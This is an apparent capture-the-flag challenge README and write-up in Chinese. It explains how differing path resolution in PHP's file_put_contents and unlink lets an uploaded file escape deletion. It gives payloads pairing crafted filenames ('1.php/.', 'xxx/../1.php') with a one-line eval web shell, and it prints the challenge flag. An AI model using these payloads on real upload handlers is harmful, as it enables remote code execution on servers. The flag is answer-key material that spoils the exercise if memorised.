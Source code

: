 # Description
想写shell??? 我tm立马就删

# Difficulty
⭐⭐⭐

# Flag
`mayctf{P4Th_r3soluti0n_d3ffer3nce_mAk3_uNsafe}`

# Hint (Optional)
 1. 不需要条件竞争(为了大家的做题体验，请不要条件竞争)

# WriteUp
简单审计源代码
## 考点
  `file_put_contents`和`unlink`对文件名的解析不同
  - `file_put_contents`会进行相对路径解析
  - `unlink`不会进行相对路径解析

## payload
 1. `filename=1.php/.` `content=<?php eval($_POST[1]);?>`
 2. `filename=xxx/../1.php` `content=<?php eval($_POST[1]);?>`